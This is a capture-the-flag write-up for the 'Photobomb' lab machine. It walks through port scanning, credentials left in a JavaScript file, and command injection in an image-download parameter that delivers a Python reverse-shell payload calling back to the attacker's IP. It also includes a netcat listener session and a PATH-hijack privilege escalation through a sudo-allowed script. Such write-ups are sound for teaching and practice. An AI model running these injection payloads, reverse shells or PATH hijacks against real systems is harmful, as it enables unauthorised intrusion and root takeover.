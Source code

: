 # Photobomb

## Overview

<figure><img src="../.gitbook/assets/Photobomb.png" alt=""><figcaption></figcaption></figure>

Photobomb is an easy Linux machine that focuses on web enumeration and command injection as well as ending with some relative path privilege escalation.

## Enumeration

### Nmap scan

I started with an nmap scan.

<pre><code><strong>...
</strong>Discovered open port 22/tcp on 10.10.11.182
Discovered open port 80/tcp on 10.10.11.182
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code></pre>

## Initial Foothold

### HTTP

I saw a webpage with a link to `/printer`, which needed a login. Running gobuster and ffuf didn't yield any meaningful results. However, I looked in the source code and found the credentials in `photobomb.js`. It also hints at a Jameson username.

<pre><code><strong>ffuf -u http://FUZZ.photobomb.htb -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50
</strong></code></pre>

```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;

```

Looking at the request when we try to download an image, I guessed it would be a command injection in one of the parameters. I opened an http server on my own vm and then added&#x20;

```
;curl 10.10.14.18/test
```

To each of the parameters in order to see which one was injectable, which was the filetype one. I then passed the shell into the parameter to make the following request.

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png%3bexport+RHOST%3d"10.10.14.18"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'&dimensions=3000x2000
```

## User and Priv Esc

We then get a reverse shell with `netcat` and upgrade it with `python`.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001             
listening on [any] 9001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.182] 40140
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
wizard@photobomb:~/photobomb$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

wizard@photobomb:~/photobomb$ ls
log  photobomb.sh  public  resized_images  server.rb  source_images
wizard@photobomb:~/photobomb$ ls -ltr
total 28
-rwxrwxr-x 1 wizard wizard   85 Sep 14 09:29 photobomb.sh
-rw-rw-r-- 1 wizard wizard 4428 Sep 14 12:40 server.rb
drwxrwxr-x 2 wizard wizard 4096 Sep 16 15:14 source_images
drwxrwxr-x 2 wizard wizard 4096 Sep 16 15:14 log
drwxrwxr-x 3 wizard wizard 4096 Sep 16 15:14 public
drwxrwxr-x 2 wizard wizard 4096 Jan 22 19:16 resized_images
wizard@photobomb:~/photobomb$ 

```

I then read the user.txt flag in the home directory and we can move onto root.

### Root

I ran `sudo -l` and saw that I can run the program `/opt/cleanup.sh`

```
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

You can see that the program uses the `cd` and `find` commands without an absolute path, so we can write our own script for both of these in the `/tmp` directory with just `"/bin/bash"` in them to fool the `cleanup.sh` program into running what we want.&#x20;

```
wizard@photobomb:~/photobomb$ echo "/bin/bash" > /tmp/cd
wizard@photobomb:~/photobomb$ echo "/bin/bash" > /tmp/find
wizard@photobomb:~/photobomb$ chmod +x /tmp/cd
wizard@photobomb:~/photobomb$ chmod +x /tmp/find
wizard@photobomb:~/photobomb$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
```
